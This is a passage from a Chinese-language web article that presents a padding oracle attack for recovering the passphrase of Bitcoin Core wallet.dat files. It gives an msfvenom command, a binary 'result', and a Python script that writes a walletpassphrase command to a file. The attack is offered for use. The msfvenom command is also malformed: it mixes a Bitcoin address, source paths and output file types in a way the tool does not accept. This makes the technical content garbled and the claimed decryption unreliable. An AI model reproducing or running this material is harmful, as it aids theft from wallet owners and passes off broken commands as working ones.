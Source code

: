 

<pre class="wp-block-code"><code>!./msfvenom 1BtcyRUBwLv9AU1fCyyn4pkLjZ99ogdr7b -p modules/exploits/ExploitDarlenePRO LHOST=172.28.0.12 -f RB -o decode_core.rb -p bitcoin/src/crypto LHOST=172.28.0.12 -f CPP -o aes.cpp -p bitcoin/src/crypto LHOST=172.28.0.12 -f DAT -o wallet.dat
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-104-1024x237.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4211"/></figure>



<p><strong>結果：</strong></p>



<pre class="wp-block-code"><code>1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>我們需要將生成的二進位格式儲存到檔案中：<strong><code><a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/walletpassphrase.txt" target="_blank" rel="noreferrer noopener">walletpassphrase.txt</a></code></strong>我們將使用<strong><em><a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/binary_save.py">Python 腳本</a></em></strong>。</p>



<p><strong>團隊：</strong></p>



<pre class="wp-block-code"><code>import hashlib

Binary = "1111111001010001100010110100011010011111011101001010111001011110010111000011101101000101010100001111000000011110010001110001110001011000111101001101110010010010101001101011110100010010100011011011001010111100110100110011100100001110110101001110111011100101"

f = open("walletpassphrase.txt", 'w')
f.write("walletpassphrase " + Binary + " 60" + "\n")
f.write("" + "\n")
f.close()

</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2023/11/image-105-1024x439.png" alt="Padding Oracle 對流行的 Bitcoin Core 錢包的 Wallet.dat 密碼解密的攻擊" class="wp-image-4214"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">開啟檔案：<a href="https://github.com/demining/CryptoDeepTools/blob/main/27PaddingOracleAttackonWalletdat/walletpassphrase.txt" target="_blank" rel="noreferrer noopener">walletpassphrase.txt</a></h2>
